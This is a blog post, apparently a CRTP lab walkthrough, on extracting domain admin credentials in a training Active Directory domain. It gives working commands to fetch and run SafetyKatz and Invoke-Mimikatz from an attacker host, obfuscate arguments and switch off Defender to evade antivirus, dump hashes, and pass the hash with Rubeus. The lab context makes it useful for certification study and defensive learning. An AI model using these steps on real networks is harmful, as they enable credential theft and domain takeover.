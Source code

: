 ```yaml
---
title: Active Directory (AD) | Local Privilege Escalation (Part 2)
date: 2024-07-01 00:00:00 +0800
categories: [Cert, CRTP]
tags: [cert,active directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## **Step 4: Extract Credential**

**Tools Used:** SafetyKatz.exe

### **Abuse using winrs**
To extract credentials from dcorp-mgmt, we will use SafetyKatz.exe. We need to avoid direct detection, so we'll transfer Loader.exe from dcorp-ci to dcorp-mgmt.

- Ensure WinRM Port is Open 

First, check if you can execute commands on dcorp-mgmt and confirm if the WinRM port is open:

```bash
winrs -r:dcorp-mgmt hostname;whoami
```
![Result](/img/crtp/result7.png){: width="972" height="589" }

- Download Loader.exe

Download Loader.exe to dcorp-ci:

```bash
iwr http://172.16.100.x/Loader.exe -OutFile C:\Users\Public\Loader.exe
```

- Copy Loader.exe to dcorp-mgmt

Copy Loader.exe from dcorp-ci to dcorp-mgmt:

```bash
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

- Set Up Port Forwarding

Establish port forwarding on dcorp-mgmt to evade detection. Use $null for output redirection to prevent command execution issues:

```bash
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```

- Generate Encoded Arguments

To bypass Windows Defender on dcorp-mgmt, encode arguments passed to Loader. Run the below command on the student VM to generate encoded arguments for sekurlsa::ekeys (this step does not need to be run on the reverse shell):

```bash
ArgSplit.bat
```

![Result](/img/crtp/result8.png){: width="972" height="589" }

- Create Batch File

Create a batch file with the encoded arguments. Below are the contents of the batch file(Safety.bat):
```bash
@echo off
set "z=s"
set "y=y"
set "x=e"
set "w=k"
set "v=e"
set "u=:"
set "t=:"
set "s=a"
set "r=s"
set "q=l"
set "p=r"
set "o=u"
set "n=k"
set "m=e"
set "l=s"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
echo %Pwn%
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -Args %Pwn%
exit
```

Download the batch file on dcorp-ci:
```bash
iwr http://172.16.100.x/Safety.bat -OutFile C:\Users\Public\Safety.bat
```

- Copy Safety.bat to dcorp-mgmt

Copy the batch file from dcorp-ci to dcorp-mgmt:

```bash
echo F | xcopy C:\Users\Public\Safety.bat \\dcorp-mgmt\C$\Users\Public\Safety.bat
```

- Execute Safety.bat

Run the batch file on dcorp-mgmt that uses Loader.exe to download and execute SafetyKatz.exe in-memory on dcorp-mgmt:

```bash
$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Safety.bat"
```

If successful, you should see output similar to:

```bash
Authentication Id : 0 ; 58866 (00000000:0000e5f2)
Session : Service from 0
User Name : svcadmin
Domain : dcorp
Logon Server : DCORP-DC
Logon Time : 3/3/2023 2:39:12 AM
SID : S-1-5-21-719815819-3726368948-3917688648-1118
 * Username : svcadmin
 * Domain : DOLLARCORP.MONEYCORP.LOCAL
 * Password : (null)
* Key List :
 aes256_hmac 
6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
 rc4_hmac_nt b38ff50264b74508085d82c69794a4d8
 rc4_hmac_old b38ff50264b74508085d82c69794a4d8
 rc4_md4 b38ff50264b74508085d82c69794a4d8
 rc4_hmac_nt_exp b38ff50264b74508085d82c69794a4d8
 rc4_hmac_old_exp b38ff50264b74508085d82c69794a4d8
```

Sweet! We got credentials of svcadmin - a domain administrator. Note that svcadmin is used as a service account (see "Session" in the above output), so you can even get credentials in clear-text from lsasecrets!

### **Abuse using PowerShell Remoting**

- Check PowerShell Remoting

First, verify if you can execute commands on the dcorp-mgmt server using PowerShell remoting:

```bash
Invoke-Command -ScriptBlock {$env:username;$env:computername} -ComputerName dcorp-mgmt
```
![Result](/img/crtp/result9.png){: width="972" height="589" }

This command returns the current username (ciadmin) and the computer name (dcorp-mgmt), confirming that PowerShell remoting is functional.

- Dump Hashes using Invoke-Mimikatz

To extract hashes, especially those of the domain admin (svcadmin), use Invoke-Mimikatz. First, host Invoke-Mimikatz.ps1 on your local machine (studentx) and execute it on the remote machine (dcorp-mgmt):

```bash
iex (iwr http://172.16.100.X/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

- Disable AMSI on dcorp-mgmt

To use Invoke-Mimikatz on dcorp-mgmt, you need to disable AMSI (Antimalware Scan Interface) since it may detect and block such activities. Here's how you can disable it:

```bash
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
Invoke-Command -ScriptBlock {Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

- Execute Invoke-Mimikatz

After disabling AMSI, execute Invoke-Mimikatz on dcorp-mgmt to dump hashes:
```bash
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```

This command retrieves sensitive information such as authentication details. For instance, it might show:

```bash
Authentication Id : 0 ; 58866 (00000000:0000e5f2)
Session : Service from 0
User Name : svcadmin
Domain : dcorp
Logon Server : DCORP-DC
Logon Time : 3/3/2023 2:39:12 AM
SID : S-1-5-21-719815819-3726368948-3917688648-1118
 * Username : svcadmin
 * Domain : DOLLARCORP.MONEYCORP.LOCAL
 * Password : (null)
 * Key List :
  aes256_hmac 
  6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
  rc4_hmac_nt b38ff50264b74508085d82c69794a4d8
  rc4_hmac_old b38ff50264b74508085d82c69794a4d8
  rc4_md4 b38ff50264b74508085d82c69794a4d8
  rc4_hmac_nt_exp b38ff50264b74508085d82c69794a4d8
  rc4_hmac_old_exp b38ff50264b74508085d82c69794a4d8
```

## **Step 5: OverPass-the-Hash with Rubeus**

Finally, use OverPass-the-Hash to leverage svcadmin's credentials. Execute the following command on the student VM:

- Prepare Arguments for Loader

Generate encoded arguments for Rubeus using ArgSplit.bat:

```bash
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: asktgt
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```
These commands set up a variable Pwn with encoded arguments for Rubeus.

- Execute Loader with Rubeus

Run Loader.exe with Rubeus.exe, passing encoded arguments to request a TGT using svcadmin's credentials:

```bash
C:\Windows\system32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

`/user:svcadmin`: Specifies the user account for which the TGT should be requested.
`/aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011`: The AES256 encryption key used to encrypt the ticket.
`/opsec`: Operates in OPSEC (Operations Security) mode to minimize detection.
`/createnetonly:C:\Windows\System32\cmd.exe`: Creates a new process with network credentials only.
`/show`: Displays detailed output during execution.
`/ptt`: Passes the ticket to the current session.

- Execution and Output

Upon successful execution, Rubeus requests a TGT and imports it into the current session. Example output includes:

```bash
`ServiceName`: The Kerberos service name for which the TGT was requested (krbtgt/dollarcorp.moneycorp.local).
`ServiceRealm`: The realm associated with the Kerberos service (DOLLARCORP.MONEYCORP.LOCAL).
`UserName`: The user for whom the TGT was requested (svcadmin).
```

After obtaining the TGT, access domain resources using tools like winrs:

```bash
C:\Windows\system32>winrs -r:dcorp-dc cmd /c set username
USERNAME=svcadmin
```
This confirms successful use of svcadmin's credentials without direct access to dcorp-mgmt from the student's machine (172.16.100.X).
